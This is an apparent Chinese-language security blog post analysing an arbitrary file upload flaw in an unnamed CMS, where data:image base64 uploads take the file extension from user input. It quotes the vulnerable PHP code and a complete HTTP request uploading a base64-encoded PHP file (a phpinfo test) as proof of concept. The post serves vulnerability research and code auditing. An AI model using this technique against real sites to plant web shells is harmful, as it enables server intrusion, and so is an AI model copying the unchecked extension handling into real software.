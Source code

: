 # 浅谈data:image格式文件上传

21年底和同学兼同事测试某个项目时，他曾问我图片上传时候数据包中以data:image格式来上传（读取）的，有没有什么方法上传shell呢，当时经验太少也没想出方法。

过了一年来回顾下这个问题，就以某CMS文件上传漏洞的源码为例分析一下。

## 代码逻辑

data:image能算作是一种编码格式，常用于图片的压缩，后面跟一串base64字符串。直接将data:image完整数据敲进浏览器栏里就能看到图片显示出来
[![pS3VEOe.png](https://s1.ax1x.com/2023/01/17/pS3VEOe.png)](https://imgse.com/i/pS3VEOe)

data:image格式的上传如果不严格校验文件后缀，会造成任意文件上传。以我之前审计的某CMS的文件上传漏洞为例，代码如下：
[![pS3VtTs.png](https://s1.ax1x.com/2023/01/17/pS3VtTs.png)](https://imgse.com/i/pS3VtTs)
src传入字符串，正则匹配两处字符串保存到matches数组中，第一处是格式，第二次是base64编码的数据

 - [ ] 代码
       
       preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)
       
       $base64 = $matches[2];
       
       $type = $matches[1];
       
       $filename = md5($base64).".$type";

最后保存预览文件到本地/preview目录下，文件名以md5格式进行命名，后缀为用户传入的后缀

因此可以构造如下数据包

 - [ ] 数据包
       
       POST /xxxx HTTP/1.1
       
       Host: xxxx
       
       Cache-Control: max-age=0
       
       Upgrade-Insecure-Requests: 1
       
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
       AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0
       Safari/537.36
       
       Accept:
       text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.9
       
       Accept-Encoding: gzip, deflate
       
       Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
       
       Cookie: PHPSESSID=0ufj3o7j0o7ovds8uuln7ho7m6
       
       Connection: close
       
       Content-Length: 46
       
       data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

上传php格式base64编码的<?php phpinfo();?>进行验证

[![pS3V60J.png](https://s1.ax1x.com/2023/01/18/pS3V60J.png)](https://imgse.com/i/pS3V60J)
[![pS3Vym4.png](https://s1.ax1x.com/2023/01/18/pS3Vym4.png)](https://imgse.com/i/pS3Vym4)

![image](https://github.com/youki992/youki992.github.io/blob/master/others/x.png)
